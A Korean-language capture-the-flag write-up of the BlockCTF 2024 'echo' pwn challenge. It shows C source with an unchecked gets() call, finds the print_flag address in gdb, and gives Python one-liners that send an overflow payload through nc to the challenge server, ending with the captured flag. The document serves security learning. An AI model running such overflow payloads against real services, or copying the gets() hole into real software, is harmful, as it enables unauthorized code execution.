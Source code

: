 <!DOCTYPE html>
<html>
<head>
        <link rel="stylesheet" type="text/css" href="sytle.css">
</head>
<body>
        <h1>BlockCTF 2024 #Pwn echo Write-Up</h1>
</body>
<br>
<br>
</html>

![image](https://github.com/user-attachments/assets/a3541a39-e399-490b-bda6-52f74e619a2f)

먼저 문제를 읽어보면 서버가 입력받은 내용을 그대로 되돌려주는 에코 서버에 대한 것 같다. 

이어서 ```echo.c```코드를 살펴보면

```
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

void print_flag() {
    puts(getenv("FLAG"));
    puts("^^ Flag!!111!!!! ^^");
}

void do_echo() {
    uint8_t echo_buffer[256] = {0};
    gets(echo_buffer);
    puts(echo_buffer);
}

int main(void) {
    puts("ECHO! Echo! echo!");
    do_echo();
    return 0;
}
```

```do_echo()``` 함수에서 ```gets()``` 함수가 ```echo_buffer``` 배열에 사용자 입력을 받아 저장하고, ```puts()```로 다시 출력하는 단순한 에코 기능이 구현되어 있다. 

그리고 가장 눈에 띄는 부분은 ```gets()``` 함수인데 ```gets()``` 함수는 버퍼 오버플로우 공격에 취약하다.

```gets()```는 입력된 데이터가 ```echo_buffer```의 크기(256바이트)를 초과하더라도 제한 없이 메모리에 계속 저장하므로, 이 버퍼 오버플로우를 이용해 ```print_flag()``` 함수를 실행할 수 있을 것 같다.

버퍼 오버플로우 공격을 수행하기 위해서는 ```print_flag()```함수의 주소가 필요하니 디버거(gdb)를 사용해서 ```print_flag()```함수의 주소를 찾아보았다.

![image](https://github.com/user-attachments/assets/d505ee95-7578-41cb-b4fc-b1f2c34b8acd)

이때 x86-64 시스템은 리틀 엔디안 형식을 사용하므로 찾은 ```print_flag()```의 주소 ```0x401176```를 입력할 때는 바이트 순서를 반대로 적어야 한다. 즉, ```\x76\x11\x40\x00```로 사용해야 한다.

본격적으로 버퍼 오버플로우 공격을 시도해 보자

아래 코드 처럼 ```echo_buffer```의 크기(256바이트)를 채운 후 ```return address```에 ```print_flag()```의 주소를 넣으면 된다.

```python
python3 -c 'print("A" * 256 + "\x76\x11\x40\x00")' | nc 54.85.45.101 8008
```

![image](https://github.com/user-attachments/assets/e34ec419-aeb2-42f2-a150-1bf44f57827e)

그러나 flag 값이 나오지 않는다.

뭐가 문제인지 잘 모르겠어서 구글링을 해보니 패딩을 늘려가면서 ```return address```에 도달하는 확인해 볼수 있다고 한다. 

그래서 패딩을 256바이트로 늘려 시도해보았다.

```
python -c 'print("A" * 264 + "\x76\x11\x40\x00\x00\x00\x00\x00")' | nc 54.85.45.101 8008
```

![image](https://github.com/user-attachments/assets/b2eb91e7-a9ba-4d90-ae74-d1931407d5e2)

flag를 찾았다!!!!!

flag{curs3d_are_y0ur_eyes_for_they_see_the_fl4g}
